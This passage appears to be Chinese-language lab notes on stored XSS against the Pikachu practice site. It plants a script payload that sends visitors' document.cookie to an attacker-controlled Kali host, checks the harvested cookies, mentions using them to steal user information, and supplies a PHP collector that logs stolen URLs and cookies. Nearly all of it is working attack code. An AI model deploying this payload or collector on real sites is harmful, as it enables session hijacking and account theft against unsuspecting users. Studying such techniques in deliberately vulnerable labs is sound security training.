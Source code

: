 #### 2、构造XSS代码并植入到Web服务器

利用`pikachu`网站，植入代码到`pikachu`网站的服务器

##### 1． pikachu网站清缓存

![image-20240820172306927](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820172306927.png)

##### 2． 编写钓鱼的提交代码

```js
<script>window.open('http://192.168.70.4:80/cookie.php?cookie='+document.cookie)</script>
```

![image-20240820172409400](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820172409400.png)

##### 3.等待肉鸡触发`XSS`代码,并将cookie发送至黑客的kali服务器

其他用户访问`pikachu`网站，出发`XSS`代码，发送其`cookie`至黑客的kali服务器

![image-20240820172516927](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820172516927.png)

Kali服务器验证

```bash
cat /var/www/html/cookie.txt
```

![image-20240820172548837](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820172548837.png)

##### 4.`Cookie`利用

利用cookie盗取用户信息

### 其他获取cookie的php文件

#### 1、获取url和cookie

```bash
vim /var/www/html/cookie2.php
```

`cookie2.php`

```php
<?php
$url = $_GET['url'];
$cookie = $_GET['cookie'];

$log = fopen("cookie.txt", "a");
fwrite($log, "URL: " . $url . "\n");
fwrite($log, "Cookie: " . $cookie . "\n");
fclose($log);

echo "URL 和 Cookie 值已保存到 cookie.txt 文件";
?>
```
